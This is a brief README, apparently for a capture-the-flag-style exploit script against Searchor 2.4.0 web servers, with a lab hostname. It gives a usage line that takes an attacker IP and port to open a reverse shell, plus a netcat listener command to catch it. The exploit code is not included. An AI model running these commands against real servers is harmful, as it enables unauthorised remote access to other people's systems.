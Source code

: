 
This is just a quick script to exploit webservers running the vulnerable version of Searchor.

This script will accept a hostname, the attacker's IP address and the attacker's Port number.

- Usage example: 
 `python3 searchor_2.4.0_RCE.py searchor.htb 10.10.14.52 4242`
 
- It is recommended to use the following when preparing to catch the reverse shell:
 `rlwrap nc -lvnp <Port_Number>` 

Additional details about the vulnerability can be found in the official issue history for [Searchor](https://github.com/ArjunSharda/Searchor/pull/130).

